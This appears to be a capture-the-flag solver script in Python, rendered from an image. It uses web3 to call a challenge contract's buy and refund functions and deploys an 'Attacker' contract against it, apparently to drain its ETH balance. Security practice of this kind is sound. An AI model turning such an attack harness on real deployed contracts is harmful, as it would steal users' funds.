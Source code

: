 ```py
    {"constant": False, "inputs": [{"name": "item", "type": "uint256"}, {"name": "quantity", "type": "uint256"}], "name": "refund", "outputs": [], "payable": True, "stateMutability": "payable", "type": "function"},
    {"constant": True, "inputs": [], "name": "isChallSolved", "outputs": [{"name": "solved", "type": "bool"}], "payable": False, "stateMutability": "view", "type": "function"}
]

# Create contract instance
contract = web3.eth.contract(address=contract_address, abi=abi)

# Check ETH balances
def check_balances():
    balance1 = web3.eth.get_balance(contract_address)
    balance2 = web3.eth.get_balance(wallet_address)
    print(f"\nETH Balance of contract --> {web3.from_wei(balance1, 'ether')} ETH\n")
    print(f"\nETH Balance of wallet --> {web3.from_wei(balance2, 'ether')} ETH\n")

# Buy function
def buy(item):
    transaction = contract.functions.buy(item, 1).transact({'from':wallet_address,'value': web3.to_wei(['5','11','23','1337'][item], 'ether')})
    print(transaction)
    check_balances()

# Refund function
def refund(item):
    transaction = contract.functions.refund(item, 1).transact({'from':wallet_address})
    print(transaction)
    check_balances()


# Create attacker contract
attacker_source_code = open("attacker.sol").read()
compiled_sol = compile_source(attacker_source_code)
attacker_interface = compiled_sol['<stdin>:Attacker']
attacker_abi = attacker_interface['abi']
attacker_bytecode = attacker_interface['bin']
attacker_contract = web3.eth.contract(abi=attacker_abi, bytecode=attacker_bytecode)

transaction = {
    'from': wallet.address,
    'gas': 2000000,
    'gasPrice': web3.to_wei('20', 'gwei'),
    'nonce': web3.eth.get_transaction_count(wallet.address),
}

# Deploy the contract
tx_hash = attacker_contract.constructor(contract_address).transact(transaction)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

attacker_contract_address=tx_receipt.contractAddress
print('Contract deployed at address:', attacker_contract_address)

attacker_contract_instance = web3.eth.contract(address=attacker_contract_address, abi=attacker_abi)


# testing
# buy(0)
# refund(0)

check_balances()

# run these first (may need to run multiple times)
```